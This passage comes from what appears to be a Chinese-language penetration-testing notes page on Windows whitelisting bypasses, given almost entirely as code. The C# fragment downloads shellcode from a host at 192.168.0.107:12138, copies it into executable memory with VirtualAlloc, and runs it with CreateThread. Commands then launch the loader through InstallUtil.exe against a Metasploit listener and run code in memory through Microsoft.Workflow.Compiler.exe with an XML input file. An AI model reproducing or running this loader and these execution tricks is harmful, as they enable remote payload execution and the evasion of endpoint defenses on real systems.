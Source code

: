 	return qaYyFq;}
	static void cmMtjerv(byte[] HEHUjJhkrNS) {
	if(HEHUjJhkrNS !=null) {
	UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
	Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
	IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
	UInt32 wdjYKFDCCf =0;
	IntPtr XVYcQxpp = IntPtr.Zero;
	UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
	WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
	public static void LCIUtRN() {
	byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.0.107",12138);
	cmMtjerv(IBtCWU);
	} }
	生成exe后执行
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\y\Desktop\y.exe
	MSF监听12138端口
  #### Compiler.exe
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe 1.xml 1.tcp
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/129.png)
  ##### 1.xml
	<?xml version="1.0" encoding="utf-8"?>
	<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
	<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
	<d2p1:string>1.tcp</d2p1:string>
	</files>
	<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
	<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
	<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
	<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
	<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
	<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
	<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
	<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
	<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"/>
	<d2p1:checkTypes>false</d2p1:checkTypes>
	<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
	<d2p1:compilerOptions i:nil="true" />
	<d2p1:generateCCU>false</d2p1:generateCCU>
	<d2p1:languageToUse>CSharp</d2p1:languageToUse>